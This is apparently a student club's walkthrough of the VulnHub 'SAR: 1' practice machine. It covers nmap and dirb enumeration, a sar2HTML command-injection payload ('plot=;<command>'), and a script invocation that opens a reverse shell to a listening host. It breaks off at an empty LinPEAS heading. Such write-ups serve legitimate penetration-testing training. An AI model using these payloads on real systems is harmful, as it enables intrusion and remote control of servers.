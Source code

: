 <p align="center"><img src="https://github.com/AkaSec-1337-CyberSecurity-Club/Introduction/raw/main/light-14.jpg" alt="AkaSec 1337 CyberSecurity Club Logo"/><br></p>

# Introduction

Sar is an OSCP-Like VM with the intent of gaining experience in the world of penetration testing.

This box is on the <a href="https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0">NetSecFocus Admin list</a> of OSCP-like machines. It’s <a href="https://www.vulnhub.com/entry/sar-1,425/">SAR: 1</a> from vulnhub.

## Setup Machine

First of all, I setup <a href="https://www.vulnhub.com/entry/sar-1,425/">sar machine</a> locally in a virtualMachine with the name **sar** then started it.
After starting the machine, I got its IP address using **VBoxManage** command
```bash
$> VBoxManage guestproperty enumerate sar | grep IP
```
<p align="center"><img src="screenShots/GetMachineIP.png" alt="Machine IP"/></p><br>

## Enumeration

### Nmap

The first step to penatrate a machine is gather information about it. After getting its IP address we can scan its to get open ports and service using **nmap** command

```bash
$> nmap FLAGS IPADDRESS
-A flag for aggressive scanning
-sV flag detect running services and their version
```

<p align="center"><img src="screenShots/Nmap.png" alt="Scan IP address with nmap"/></p><br>

### Fuzzing

The output shows that we have port 80 open, so we can access the ip via browser, The default page shows apache info page.
The next step is searching for more directories and files, to do that we can use **dirb** tool

```bash
$> dirb http://IPADDRESS/ /path/to/wordlist
```

<p align="center"><img src="screenShots/Dirb.png" alt="Fuzzing for more paths"/></p><br>

The output of **dirb** tool shows 3 valid paths, `index.html` which is the default apache page, `phpinfo.php` shows php info, and finally `robots.txt` that has `sar2HTML` text.
I put that text as path in URL and I got the following page

<p align="center"><img src="screenShots/sar2HTML.png" alt="sar2HTML page"/></p><br>

### Exploiting

After reading the content I decided to look up sar2Html in google, and I found that it is a service that has a Remote Code Execution vulnerability, I exploited it as described in <a href="https://www.exploit-db.com/exploits/47204">exploit-db</a>, `IPADDRESS/sar2HTML/index.php?plot=;<command>` this will execute the command and show the output of it in select host droplist at the left of the page.

<p align="center"><img src="screenShots/RunTheExploit.png" alt="Exploited sar2HTML"/></p><br>

After executing the command I immediately thought of a reverse shell, I found this <a href="https://github.com/AssassinUKG/sar2HTML">Reverse Shell for sar2HTML</a> and executed it as follow

```bash
$> ./sar2HTML -ip MACHINEIPADDRESS -rip LISTENING_SERVER_FOR_REVERSE_SHELL -pe DIRECTORY
```
running `rs session` on the webShell will create a server listening on IP:PORT provided in `-rip` flag with a Reverse Shell.
after getting the reverse shell I started checking the current directory, which is `/sar2HTML`, then back one step to parent directory which is `/var/www/html`, I found in this directory 2 suspicious files, `finally.sh` with root owner and `write.sh` with current user which is `www-data`.
after printing their content I found that `finally.sh` execute `write.sh` file, where `write.sh` file create `/tmp/gateway` file using `touch` command. Thats all I could get for now 
<p align="center"><img src="screenShots/ReverseShell.png" alt="Reverse Shell"/></p><br>

### LinPEAS



